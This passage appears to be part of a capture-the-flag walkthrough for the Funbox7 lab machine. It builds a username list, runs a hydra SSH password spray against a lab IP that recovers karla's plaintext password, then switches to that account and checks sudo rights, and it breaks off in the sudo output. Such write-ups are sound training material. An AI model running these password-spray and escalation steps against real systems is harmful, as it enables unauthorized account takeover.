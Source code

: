 Not allowed on this account but now at least I have other users

  

So it's not oracle

  

Make username list of other users

```ini

goat  

harry  

karla  

sally

root

```

  

Try the password on these users via a password spray

```sh

hydra -L users -p "tgbzhnujm!" 192.168.184.132 -v -t 4 ssh -I

```

[22][ssh] host: 192.168.184.132   login: karla   password: tgbzhnujm!

  

Worked for karla

  

```sh

su karla

```

  

```sh

sudo -l

```

Matching Defaults entries for karla on funbox7:

    env_reset, mail_badpass,

    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User karla may run the following commands on funbox7:
